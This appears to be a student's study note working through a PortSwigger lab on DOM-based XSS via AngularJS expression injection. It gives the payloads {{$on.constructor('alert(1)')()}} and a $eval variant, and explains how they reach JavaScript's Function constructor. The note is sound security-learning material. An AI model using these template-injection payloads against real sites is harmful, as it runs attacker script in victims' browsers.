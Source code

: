 **DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**

Payload
```
{{$on.constructor('alert(1)')()}}
```

From <https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression> 


AngularJS depreciated since 2022 . No exploit explanation of how it works. All the explanation suck 
Content are contained in curly brackets {}
{{1+1}}
Will return 2 on the block

Understanding Angular

  
```
<!DOCTYPE html>
<html>
        <head>
                <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js" ></script> //calling CONTENT DELIVERY
        </head>

        <body ng-app="myApp" ng-controller="myCtrl"> //Using angular directive. Make use of controller
            <p id="test"></p>
            {{firstName}} //value
            {{1+1}} //value
        </body>
        <script>
            var app = angular.module('myApp', []); //initialize our app with empty array
            app.controller('myCtrl', function($scope){ //building our controller. Pass name myCtrl and pass a function with a scope variable as parameter. 
                $scope.firstName="Adam";//we can now specify scope. Calling firstname
            }); 
        </script>
        </html>
```
      

Adding 
```
{{$eval.constructor('alert(1)')()}}
```
Trigger a alert 
From <https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8c11addb-ab65-457c-bfe8-7cdc9e9eb55e)



On our browser open up console 
```
angular.element(document.getElementById('test')).scope();
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4e460718-be5a-411e-b294-d086eb81426e)



Can also pass as a variable for easy calling
```
let scope = angular.element(document.getElementById('test')).scope();
scope;
```

Checking prototype
inherit default property from prototype. Come from higherup from angular app
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/807994c8-cbcf-4db2-95e9-19083b59650d)

Various method exposed to us and are in the scope of the angle bracket used to commit XSS 
Can use any function above to committ XSS

Documentation of function calling function 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function
"
but suffers from security and similar 

From <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function> 

"

Using function constructor 

 ```
let test = Function('alert()')
            test();
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2c739974-1229-4ffa-afea-0801bdbcbe9e)



We get alert popped up
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ed712b8e-9392-4131-a592-6574ac208cbd)


Declaring function and calling it at the same time. Calling function directly.
```
let test = Function('console.log("hello world")')();
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/657bf805-38de-4e93-bb0d-cfb69e02316e)



Adding 

  ```
function test() {
                console.log('hello world');
            }
            console.log(test.constructor)
```
Will get a function in the name of function
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/2b741fe2-9a3d-4c6e-ba84-b132b5c71895)


Reference to function constructor function. Can be used to create new value function

Adding 

   ```
let mySecondFunction = test.constructor('console.log("hello second world")');
            mySecondFunction();
```

Is the same as
Let mySecondFunction = (Function'')

How does everything tie together 
Calling 
`{{$on.constructor}}`
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d5daa830-944c-4591-8f8b-73ae438e63ed)


We get JavaScript constructor function
Return javascript constructor function
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/014ea3c6-cdd2-4738-ab7d-4d7e0ff00088)


Our constructor function on our test and on.constructor both return js constructor function.
We can pass which has () after the alert to directedly call a function
```
{{$on.constructor('alert(1)')()}}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e7fe45e6-e680-4650-ab85-dabb2e3a864f)

From <https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression> 


